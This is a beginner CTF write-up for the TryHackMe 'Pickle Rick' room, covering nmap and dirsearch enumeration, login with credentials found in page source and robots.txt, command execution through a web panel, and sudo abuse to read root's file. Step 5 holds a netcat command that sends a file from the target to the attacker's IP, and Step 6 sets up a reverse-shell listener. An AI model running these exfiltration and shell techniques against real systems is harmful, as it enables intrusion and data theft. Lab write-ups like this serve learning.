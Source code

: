 
---
title:Pickle Rick
categories: [Web, Easy ]
tags: [web, easy, nmap, dirsearch, netcat]
image: images/Pickle Rick/Pickle Rick.png
---

# Pickle Rick - TryHackMe Writeup

This guide walks through solving the *Pickle Rick* TryHackMe challenge, a beginner-friendly CTF focused on web enumeration and shell techniques. Since TryHackMe machines use dynamic IPs, replace `<targetIP>` with the target machine's IP and `<yourIP>` with your attacking machine's IP.

## Step 1: Initial Reconnaissance with Nmap
Scan the target to identify open ports and services:  
```
nmap -Pn -sC -sV --min-rate=10000 <targetIP>
```

**Output**:  
- **Port 22 (SSH)**: Open, indicating potential SSH access.  
- **Port 80 (HTTP)**: Open, hosting a web server.

Visiting `http://<targetIP>` reveals a webpage with a challenge to find three "ingredients" (flags).

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_3.png)

## Step 2: Web Enumeration
Check the webpage's source code for clues, revealing a username: `R1ckRul3s`.  

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_4.png)

Run a directory scan using *dirsearch*:  
```
dirsearch -u http://<targetIP>
```

**Findings**:  
- `/robots.txt`: Contains `Wubbalubbadubdub`.  
- `/login.php`: A login page.

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_5.png)

## Step 3: Gaining Access
Log in using:  
- **Username**: `R1ckRul3s`  
- **Password**: `Wubbalubbadubdub`

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_6.png)

Upon login, a **Command Panel** allows command execution on the server.

## Step 4: Finding the First Ingredient
In the Command Panel, list files in `/var/www/html`. A file `Sup3rS3cretPickl3Ingred.txt` is present. Since `cat` is disabled, access it via the browser:  
```
http://<targetIP>/Sup3rS3cretPickl3Ingred.txt
```

This yields the **first ingredient**.

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_7.png)

## Step 5: Finding the Second Ingredient
Enumerate `/home/rick` via the Command Panel, finding `second ingredients`. Set up a *netcat* listener on your machine:  
```
nc -vnlp 9003 > file.txt
```

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_8.png)

In the Command Panel, send the file:  
```
/bin/sh | nc <yourIP> 9003 < /home/rick/'second ingredients'
```

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_9.png)

Read `file.txt` to obtain the **second ingredient**.

## Step 6: Escalating Privileges and Finding the Third Ingredient
Check *sudo* privileges in the Command Panel:  
```
sudo -l
```

**Output**: The user can run any command with *sudo* without a password.

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_10.png)

Set up a *netcat* listener on your machine:  
```
nc -vnlp 9003
```

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_11.png)

Once connected, spawn an interactive shell:  
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
or
bash -i
```

## Step 7: Locating the Third Ingredient

Alternatively, use *sudo* to read the file in `/root`:  
```
sudo cat /root/3rd.txt
```

## Summary
- **First Ingredient**: Found in `Sup3rS3cretPickl3Ingred.txt` via the browser.  
- **Second Ingredient**: Transferred from `/home/rick/'second ingredients'` using *netcat*.  
- **Third Ingredient**: Retrieved from  `/root/3rd.txt` via a reverse shell with *sudo* privileges.

This streamlined approach uses basic enumeration, web exploitation, and reverse shell techniques to efficiently complete the challenge.